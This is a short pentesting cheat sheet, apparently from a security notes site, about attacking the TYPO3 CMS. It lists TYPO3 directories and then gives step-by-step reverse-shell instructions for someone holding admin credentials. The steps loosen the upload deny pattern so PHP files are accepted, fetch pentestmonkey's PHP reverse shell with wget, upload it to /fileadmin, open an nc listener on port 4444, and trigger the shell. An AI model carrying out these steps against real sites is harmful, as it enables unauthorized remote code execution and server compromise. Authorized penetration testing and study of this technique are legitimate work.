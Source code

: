 ```yaml
---
title: TYPO3 Pentesting
desc:
tags: [CMS, TYPO3, Web]
alts: []
render_with_liquid: true
---
```


## Directory Discovery

```
/fileadmin/
/typo3/
/typo3conf/
/typo3temp/
```

<br />

## Default Credentials

```
admin:<password-specified-when-installed>
```

<br />

## Reverse Shell (Admin Credential Required)

First, to check and edit the configuration of the uploaded file extension, go to “ADMIN TOOLS” → “Configure Installation-Wide Options” → “Backend” → “fileDenyPattern”.  
Update the configuration if necessary. For example, remove “php[1-9]?”

```
\.(phpsh|phtml|pht|phar|shtml|cgi)(\..*)?$|\.pl$|^\.htaccess$
```

Next, prepare the payload for reverse shell named “shell.php”.

```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
```

Go to “FILE” → “Filelist” and upload the payload to the root of /fileadmin.

Now you need to open listener for getting the shell.

```sh
nc -lvnp 4444
```

Then access to “/fileadmin/shell.php”. You should get the shell.